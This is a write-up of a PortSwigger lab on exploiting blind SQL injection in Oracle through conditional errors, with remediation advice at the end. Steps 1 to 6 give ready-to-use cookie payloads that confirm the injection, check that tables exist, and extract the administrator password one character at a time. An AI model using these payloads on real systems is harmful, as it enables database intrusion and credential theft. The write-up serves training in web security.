


# Blind SQL Injection with Conditional Errors

> **PortSwigger Web Security Lab Writeup**

---

## Lab Environment

| Component  | Details                      |
| ---------- | ---------------------------- |
| OS         | Kali Linux                   |
| Browser    | Firefox                      |
| Proxy Tool | Burp Suite Community Edition |
| Target     | PortSwigger Lab Environment  |
| Language   | Python                       |
| Database   | Oracle Database              |
| Category   | SQL Injection                |
| Difficulty | Practitioner                 |

---

## Objective

Exploit a blind SQL injection vulnerability in the `TrackingId` cookie parameter using conditional database errors to extract the administrator password from the `users` table and login as the administrator user.

---

## Vulnerability Overview

The application uses a tracking cookie to identify users. The value of this cookie is processed directly inside a backend SQL query without proper sanitization or parameterized queries.

Unlike normal SQL injection vulnerabilities, the application does not display query results directly. Instead, information can be inferred by observing differences in server behavior:

* **Normal response (HTTP 200)** → condition is false
* **Internal Server Error (HTTP 500)** → condition is true

By intentionally triggering database errors using conditional statements, sensitive information can be extracted one character at a time.

**Root Cause:** The `TrackingId` cookie value is concatenated directly into an Oracle SQL query without input validation or prepared statements, allowing arbitrary SQL execution.

---

## Attack Procedure

### Step 1 — Confirm SQL Injection Vulnerability

Begin by injecting a valid Oracle query into the cookie parameter to confirm backend SQL execution. The `dual` table is Oracle-specific — a normal response confirms the database type.

```sql
TrackingId=' || (select '' from dual) || '
```

Next, an invalid table name was used to provoke an error:

```sql
TrackingId=' || (select '' from duelelel) || '
```

✅ **Result:** HTTP 500 returned → SQL is being executed server-side and the backend is Oracle.

---

### Step 2 — Verify the `users` Table Exists

Inject a subquery that returns a value only if the `users` table exists with at least one row.

```sql
TrackingId=' || (select '' from users where rownum=1) || '
```

✅ **Result:** Normal response → `users` table exists.

---

### Step 3 — Confirm the `administrator` Account Exists

Narrow the query to check whether a row with `username = 'administrator'` exists.

```sql
TrackingId=' || (select '' from users where username='administrator') || '
```

✅ **Result:** Normal response → `administrator` account exists.

---

### Step 4 — Trigger Conditional Errors

Use Oracle `CASE WHEN` statements to map true/false conditions to HTTP 500 / HTTP 200 responses.

**False condition — no error triggered:**

```sql
TrackingId=' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '
```

**True condition — error triggered:**

```sql
TrackingId=' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || '
```

**Non-existing user — no error triggered:**

```sql
TrackingId=' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='fwefwoeijfewow') || '
```

✅ **Result:** HTTP 500 only fires when the condition is true and the row exists — confirming reliable boolean inference via error triggering.

---

### Step 5 — Determine the Password Length

Use `LENGTH()` with an incrementing threshold. Increase `n` from 1 until the server stops returning HTTP 500.

```sql
TrackingId=' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>n) || '
```

> Increment `n` from `1` upward. The response stops returning HTTP 500 once `n` exceeds the actual password length.

✅ **Result:** Password length = **20 characters**

---

### Step 6 — Extract the Password Character by Character

For each position (1–20), iterate through all possible alphanumeric characters using `SUBSTR()`. An HTTP 500 response confirms a character match.

```sql
TrackingId=' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,{pos},1)='{char}') || '
```

Where:
- `{pos}` = character position (1 to 20)
- `{char}` = candidate character being tested

This is automated using Burp Suite Intruder (Cluster Bomb attack) or the Python script below.

---

## Automation Script

[`blind_sqli.py`](./scripts/script.py)**

The script automates Steps 5 and 6 — determining the password length and brute-forcing each character position using HTTP status code inference.

---

## Screenshots

### Burp Suite Intruder — Cluster Bomb Attack


### Burp Suite Repeater - Password Length Checking


---

## Conclusion

This lab demonstrated how Blind SQL Injection with conditional errors can be exploited even when the application does not display database output directly.

**Attack chain summary:**

1. Oracle `dual` table confirms database type and SQL injection
2. Subqueries verify `users` table and `administrator` account existence
3. `CASE WHEN` + division-by-zero maps boolean conditions to HTTP status codes
4. `LENGTH()` determines the exact password length
5. `SUBSTR()` extracts the password one character at a time

**Root Cause:** The application concatenated user-controlled cookie values directly into SQL queries without parameterized statements or input sanitization. A simple prepared statement would have fully prevented this attack.

---

## Remediation

- Use **parameterized queries / prepared statements** for all database interactions
- Apply **input validation and allowlisting** on cookie values
- Implement **WAF rules** to detect and block SQL injection patterns
- Follow the **principle of least privilege** — the database account should not have unnecessary read access
- Suppress verbose **error messages** in production to limit information leakage

---

*Writeup conducted in a controlled PortSwigger lab environment for educational purposes.*